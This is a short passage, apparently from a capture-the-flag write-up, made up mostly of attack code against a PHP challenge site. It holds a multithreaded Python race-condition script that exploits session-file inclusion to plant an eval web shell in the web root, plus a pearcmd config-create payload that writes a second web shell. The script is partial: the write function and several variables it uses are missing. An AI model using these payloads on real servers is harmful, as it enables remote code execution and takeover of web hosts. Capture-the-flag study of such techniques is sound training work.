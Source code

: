 ```python
 
def read(session):
   while True:
       res = session.post(url,
                          data={
                              "1":"localhost/tmp/sess_"+session_id,
                              "2":"file_put_contents('/var/www/html/shell.php' , '<?php eval($_POST[3]);?>');"
                              
                          },
                          cookies={
                              "PHPSESSID":session_id
                          }
                          )
       res2 = session.get("http://4c043e9c-de20-4f93-be21-45f5885768ce.challenge.ctf.show/shell.php")
       if res2.status_code == 200:
           print("getshell")
       else:
           print("Retry")
 
 
if __name__ == "__main__":
   evnet = threading.Event()
   with requests.session() as session:
       for i in range(5):
           threading.Thread(target=write, args=(session,)).start()
       for i in range(5):
           threading.Thread(target=read, args=(session,)).start()
   evnet.set()
```

pearcmd

`?+config-create+/<?=@eval($_POST['cmd']);die()?>+/tmp/shellcmd.php`
`1=localhost/usr/local/lib/php/pearcmd.php`


![](attachments/Pasted%20image%2020240216144441.png)
